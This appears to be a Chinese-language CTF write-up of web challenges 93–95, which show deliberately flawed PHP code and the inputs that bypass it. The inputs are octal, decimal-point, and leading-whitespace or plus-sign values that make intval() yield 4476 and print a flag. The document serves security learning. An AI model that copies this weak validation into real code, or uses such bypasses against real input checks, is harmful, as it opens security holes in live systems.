 过滤了字母，二进制、十六进制和科学技术法的方法用不了了

 payload：

```
八进制：010574
小数点：4476.110
```

## 94-intval

```php
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(!strpos($num, "0")){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```

过滤了字母，并且检测传入的num中首位是否为0

直接用八进制肯定不行，加个不影响判断的东西即可；小数点也还能用

```
八进制：%0a010574 、+010574 、%20010574
小数点：4476.110
```

## 95-intval

```php
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("no no no!!");
    }
    if(!strpos($num, "0")){
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```

